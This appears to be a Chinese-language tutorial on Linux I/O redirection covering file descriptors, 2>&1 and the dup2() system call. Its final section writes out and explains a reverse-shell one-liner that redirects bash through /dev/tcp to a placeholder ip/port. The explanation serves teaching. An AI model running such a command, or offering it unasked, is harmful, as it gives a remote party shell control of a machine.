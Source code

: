 > I/O重定向基础知识为文件描述符

![webp](https://upload-images.jianshu.io/upload_images/2322338-e9e60a745921ba84.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/700/format/webp)
文件描述符是文件描述表的下标，文件描述表中存的指向文件结构体的指针。
```
struct fd { 
     struct file *file;//指向文件表的指针 
     unsigned int flags; 
    };
```
而standin，standout，standerr就是三个FILE *指针
```
FILE* stdin
FILE* stdout
FILE* stderr
```
上述代码对应上表，`unsigned int flags; `就是`fd flags`，而`file *file`则是`file ptr`，而在linux里，`flags`只有一个值`close-on-exec`，即`FD_CLOEXEC`
## 重定向
```
2>&1
```
在重定向前，是这样的：
![8bbdb068-98af-4e16-ac68-13f6b9f14d52.png](linux I-O重定向_files/8bbdb068-98af-4e16-ac68-13f6b9f14d52.png)
重定向之后，是这样的：
![61d2f081-841b-4faf-bac5-861ef904c67e.png](linux I-O重定向_files/61d2f081-841b-4faf-bac5-861ef904c67e.png)
这是因为`2>&1`是通过`dup2()`这个系统调用实现的。
**int dup2(int oldfd, int newfd); **:
```
dup2() create a copy of the file descriptor oldfd. After a successful return from dup() or dup2(), the old and new file descriptors may be used interchangeably. They refer to the same open file description (see open(2)) and thus share file offset and file status flags; for example, if the file offset is modified by using lseek(2) on one of the descriptors, the offset is also changed for the other.
```
`dup2()`和`dup()`都是复制一个现存的文件描述符(新的复制老的)，然后指向相同的文件结构体，但是flags不同，因为新的上会被关闭。
> 这儿关于dup2()的实现推荐一个文章[Linux内核分析：dup、dup2的实现](https://www.cnblogs.com/lit10050528/p/6206235.html)，源码非常清楚了，把老的指针复制(赋值)给新的

找到一个非常漂亮的图
![164957289.png](http://blog.51cto.com/attachment/201211/164957289.png)
## 反弹bash
```
bash > /dev/tcp/ip/port 0<&1
```
先是`standout`重定向到`/dev/tcp/ip/port`，接着`standin`的再被复制成`standout`
> 这儿说的standin,standout并非是指针，而是0,1的默认名称

|Handle|Name|Description|
| - | - | - |
|0|stdin|标准输入|
|1|stdout|标准输出|
|2|stderr|标准错误输出|
